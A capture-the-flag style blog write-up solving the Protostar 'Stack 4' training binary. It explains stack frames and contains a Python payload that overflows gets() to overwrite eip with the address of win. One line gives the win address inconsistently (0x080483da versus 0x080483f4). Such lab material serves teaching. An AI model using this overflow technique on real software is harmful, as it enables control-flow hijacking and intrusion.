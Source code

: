 ```yaml
---
title: Protostar - Stack 4
date: 2024-02-14 20:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack4]
---
```


# Conquering Stack4 at Protostar Machine

Hello !  Today, I will solve [Stack4](https://exploit.education/protostar/stack-four/) challenge on [Protostar](https://exploit.education/protostar) machine .

This time,our mission to hijack the execuation flow and make it flow as we want , Hackers Hah XD .. 
we need to make the program exec flow change and run function called `win` .
We Love `eip` hijacking hah ;). prepair your self and your terminal and let,s go.

- this challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack-bufferoverflow.

### **Challenge Overview**
- **Challenge Name:** [Stack4](https://exploit.education/protostar/stack-four/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary
![Stack4 Explore](/assets/img/protostar/stack4-explore.png)
Again there is input ... Hmmm i think i know this function which prompt input XD .. , but i will not say :D .. you will know later :) .
### Step 2: Analysis
![Stack4 Analsis](/assets/img/protostar/stack4-analysis.png)
1. Function Prologue:
   - `push ebp`: save the base pointer.
   - `mov ebp, esp`: set up  new base pointer.
   - `and esp, 0xfffffff0`: align the stack.
   - `sub esp, 0x60`: allocate space for local variables.
2. create pointer to buffer on stack and store it in `[esp]` pointer:
- `lea eax, [esp+0x10]`: load effective address into `eax`.
- `mov DWORD PTR [esp], eax`: store the address pointed by `eax` at top of the stack.
3. Function Calls:
- `call 804830c <gets@plt>`: calling the gets function. so my friend . that is the function which i told you about ;)
4. Function Epilogue:
- `leave` restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` return from the function. 
5. `win` function address is at `0x080483f4` 

### Step 3: Debugging

#### Theory of instruction `call`

1. first when call a function program `push` current eip address on stack 
2. then `jmp` to function which called 
3. function `push ebp` , and `mov ebp,esp` which is known as `Function Prologue` which is init stack frame
4. at the end of function when it finished it make  `Function Epilogue` which is destory stack frame by `mov esp,ebp` then `pop ebp` which is also can be shorted as `leave` instruction
5. when execute `ret` in this function which called the `eip` `pop` the first value pushed before in the stack in step 1 which represent the `eip` value which is instruction after the function called to continue execute code that after function call

Now let,s fuzz & debug ! ;)

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble `main` 
3. break point at `leave` instruction in `main`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at ebp register
6. check fuzz value at eip register
![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug.png)

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug2.png)
- `ebp` value now is `0x53535353` which is hexadecimal respresntation for  fuzz value `SSSS` 

![Stack4 Debug](/assets/img/protostar/stack4-gdb-debug3.png)
- and of course  `eip` value now is `0x54545454` which is hexadecimal respresntation for fuzz value `TTTT` 
- well done now let,s craft our solution

### Step 4: Crafting Solution 
okay let,s update our script: `~/fuzz.py`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
ebp="SSSS"
eip="\xf4\x83\x04\x08" # represent 0x080483f4 on little endian machines. 0x080483f4 is address of win function
print(fuzz+ebp+eip)
```
now `eip` will have the address of `0x080483da` which is address for function `win`
let,s run our solution redirect output of `~/fuzz.py` to our beautiful binary `stack4`

![Stack4 Sloved](/assets/img/protostar/stack4-solved.png)

and now function `win` called ..

We `win` !  CheckMate ;) 


See You in [Stack5](/posts/protostar_stack5) ;)

